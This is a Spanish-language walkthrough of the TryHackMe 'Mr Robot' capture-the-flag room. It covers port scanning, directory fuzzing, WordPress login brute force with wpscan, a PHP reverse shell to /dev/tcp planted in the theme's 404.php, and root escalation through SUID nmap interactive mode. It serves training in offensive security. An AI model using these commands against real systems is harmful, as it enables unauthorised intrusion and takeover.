 https://tryhackme.com/r/room/mrrobot
# Fase de reconocimiento
## Buscamos puertos abiertos
```
nmap -sS -p- -T5 --min-rate=5000 -vvv -Pn -n 10.10.88.41
```
![[Pasted image 20240602185415.png]]
## Reconocimiento de servicios
```
nmap -sCV -p22,80,443 10.10.88.41
```
![[Pasted image 20240602185536.png]]
## Fuzzing
```
gobuster dir -u http://10.10.88.41 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 30
```
![[Pasted image 20240602185850.png]]
Encontramos un diccionario
![[Pasted image 20240602190157.png]]

# Fase de ataque
## Wordpress
Hacemos Brute force sobre el login para encontrar el usuario con el diccionario encontrado.
![[Pasted image 20240602190701.png]]
Por la longitud de la respuesta vemos que el usuario elliot es valido
![[Pasted image 20240602191354.png]]
![[Pasted image 20240602191538.png]]
## Brute force password
Con el diccionario dado
```
wpscan --url http://10.10.88.41/wp-login.php -U elliot -P fsocity.dic
```
![[Pasted image 20240602195404.png]]Logging con wp_yura
## Reverse Shell
Editamos el Tema 404.php e insertamos una reverse shell
```
system("bash -c 'bash -i >& /dev/tcp/10.9.0.36/443 0>&1'");
```
![[Pasted image 20240531190415.png]]
Nos ponemos en escucha por el puerto 443
```
nc -nlvp 443
```
[-] ==pwned!==
# Privilege Escalation
Numeramos archivos con permisos
```
find \-perm -4000 2>/dev/null
```
Encontramos nmap y con https://gtfobins.github.io/gtfobins/nmap/ hacemos la escalada
```
/usr/local/bin/nmap --interactive
	!sh
```
[+] ==pwned!==